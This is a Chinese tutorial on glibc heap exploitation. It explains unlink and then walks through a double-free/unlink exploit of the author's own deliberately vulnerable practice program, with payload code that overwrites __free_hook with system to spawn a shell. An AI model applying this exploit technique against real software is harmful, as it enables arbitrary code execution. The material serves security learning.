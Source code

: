 自己一直没有总结知识的习惯，这次算是特例了，从这一篇开始，我将目前我所知道的堆利用知识一一做一下总结。
## 前言

这里只对堆利用技巧做相关总结，相关基础知识请大家自己补充。以下内容都假设读者已经掌握linux下堆基础知识，不清楚的请参考[glibc内存管理ptmalloc源代码分析](https://github.com/moonAgirl/pwnstudy/tree/master/resource)。

## 先了解一下unlink

在free一块堆chunk内存时，会查看该块前后相邻的两块是否空闲，如果空闲的话则把他们从原来的链表上卸载出来和当前块合并在一起。分为向前合并和向后合并。

向前合并：

	查看下一个块是不是空闲的 – 下一个块是空闲的，如果下下个块（距离当前空闲块）的PREV_INUSE(P)位没有设置(值为0）。为了访问下下个块，将当前块的大小加到它的块指针，再将下一个块的大小加到下一个块指针。
	
	如果是空闲的，使用unlink操作合并它。将合并后的块添加到 unsorted bin 中。

向后合并：

	查看前一个块是不是空闲的 –如果当前空闲块的PREV_INUSE(P)位为0， 则前一个块是空闲的。如果空闲，合并它。

unlink操作如下：


    FD = P->fd;
    BK = P->bk;
    FD->bk = BK;
    BK->fd = FD;

假设执行free(q),对于向前合并，p就是指向q这个chunk块,对于向后合并，p指向的是q的前一个chunk块

unlink还需要过一个检查,如下：

    (P->fd)->bk == (P->bk)->fd ？

即判断当前这个chunk P的后一个chunk的前一个chunk与当前这个chunk P的前一个chunk 的后一个chunk是不是同一个chunk(即P)

## 再谈double-free漏洞原理

Double Free其实就是同一个指针free两次。虽然一般把它叫做double free。其实只要是free一个指向堆内存的指针都有可能产生可以利用的漏洞。double free的原理其实和堆溢出的原理差不多，都是通过unlink这个双向链表删除的宏来利用的。只是double free需要由自己来伪造整个chunk并且欺骗操作系统。

下面用我自己写的一个漏洞百出的程序来讲解一下double-free的利用细节(本系列都将基于以下这个程序来进行，程序及源码下载地址在[这里](https://github.com/moonAgirl/pwnstudy/tree/master/Article/Files/Heaps)）。

## 一个简单的列子-DBAPP

先用ida打开DBAPP分析，通过分析，可以看出这个程序包含以下几个功能：

    1.show the items in the App
    2.add a new item
    3.change the item in the App
    4.remove the item in the App
    5.exit
    
### show_item

      for ( i = 0; i <= 99; ++i )
      {
    	if ( Apps[2 * i] )
      		printf("%d : %s", (unsigned int)i, Apps[2 * i]);
      }

将Apps[2*i]指向的内容打印出来

### add_item

    printf("Please enter the length of item name:");
    read(0, &length, 8uLL);
    v2 = atoi(&length);
    for ( i = 0; i <= 99; ++i )
    {
      if ( !Apps[2 * i] )
      {
        *((_DWORD *)&itemlist + 4 * i) = v2;
        Apps[2 * i] = malloc(v2);
        printf("Please enter the name of item:");
        read(0, (void *)Apps[2 * i], v2) = 0;
        ++tatol_nums;
        return 0LL;
      }
    }

申请一块用户自定义长度的堆块，将堆块指针保存在全局变量Apps[2*i]中

### change_item

    printf("Please enter the index of item:");
    read(0, &buf, 8uLL);
    v2 = atoi(&buf);
    if ( Apps[2 * v2] )
    {
      printf("Please enter the length of item name:", &buf);
      read(0, &nptr, 8uLL);
      v0 = atoi(&nptr);
      printf("Please enter the new name of the item:", &nptr);
      read(0, Apps[2 * v2], v0);
	}

重写用户指定的堆块，写入长度也由用户自定义

### remove_item

 	if ( tatol_nums )
  	{
    printf("Please enter the index of item:");
    read(0, &buf, 8uLL);
    v1 = atoi(&buf);
    if ( Apps[2 * v1] )
    {
      free(Apps[2 * v1]);
      *(&itemlist + 4 * v1) = 0;
      puts("remove successful!!");
      --tatol_nums;
    }

将用户指定的堆块释放

大家应该已经发现了，在重写堆内容时可以写入用户自定义长度的内容，这是一个漏洞；另外在free堆块时，没有将全局变量里的堆指针清0，这是另一个漏洞。好清记住这两个漏洞，下面开始利用double-free进行漏洞利用。

## double-free漏洞利用

首先泄露libc地址，并计算相关函数地址

	Add(0x80,'AAAA') #0
	Add(0x100,'AAAA') #1
	Add(0x10,'AAAA') #2
	Delete(1)
	Add(0xD0,'AAAAAAAA') #3
	Show()
	io.recvuntil('3 : AAAAAAAA')
	data = u64(io.recv(6).ljust(8,'\x00'))
	libc_base = data - malloc_hook_libc - 0x168
	free_hook_addr = free_hook + libc_base
	system_addr = system_libc + libc_base
	success('libc_base:'+hex(libc_base))
	success('free_hook_addr:'+hex(free_hook_addr))
	success('system_addr:'+hex(system_addr))

再申请两个堆块

	Add(0x100,'BBBB') #5
	Add(0x100,'BBBB') #6

此时堆内情况如下：

![](../Images/Heaps/1.1.png)

再将5,6号堆块free掉

	Delete(5)
	Delete(6)

此时再申请一块大小为5,6之和的堆块7，而申请的堆块7正是之前释放的5,6号堆块所在位置，如下：

![](../Images/Heaps/1.2.png)

我们在7号堆块内写入如下内容

		payload = p64(0) + p64(0x101)
		payload += p64(0x6020F8 - 0x18) + p64(0x6020F8 - 0x10)
		payload += 'a'*(0x100 - 4*8)
		payload += p64(0x100) + p64(0x110)

解释一下上面这个payload

		payload = p64(0) + p64(0x101)
		payload += p64(0x6020F8 - 0x18) + p64(0x6020F8 - 0x10)
		payload += 'a'*(0x100 - 4*8)

这部分是在堆块7与堆块5共享的数据部分伪造了一个fake_chunk，将fake-chunk的pre_size设置为0，size设置为0x100,fd域设置为0x6020F8 - 0x18，bk域设置为0x6020F8 - 0x10，这里这是为什么呢？0x6020F8为bss段中存储堆块5首地址的一块地址，我们在这里这样设置可以在之后的unlink操作中绕过**(P->fd)->bk == (P->bk)->fd ？** 这一判断。

	payload += p64(0x100) + p64(0x110)

这部分是将堆块7与堆块6共享的部分将chunk 6的pre_size域改为0x100,size域改为0x110

最终堆内存布局如下：

![](../Images/Heaps/1.3.png)

之后再将chunk 6 free一次，造成double-free，触发unlink向后合并

	Delete(6)

由于我们已经设置了fd和bk，unlink成功，最终bss中保存chunk 5堆块地址 heap_5 处变为 heap_5 - 0x18,如下图

![](../Images/Heaps/1.4.png)

于是我们编辑堆块5将保存堆块4地址的bss处覆盖为free_hook地址

	Change(5,17,p64(0)+p64(free_hook_addr))

再编辑堆块4，将free_hook处写入system地址

	Change(4,17,p64(system_addr)*2)

然后free一块保存有'/bin/sh'字符串的堆块，就相当于执行system(‘/bin/sh\x00')了

	Delete(0)

get shell！

## 总结

需要理解unlink,如果我这里没解释清楚，大家可以去寻找一下其他资料。double-free重要的是需要寻找一块保存当前堆块的内存地址。









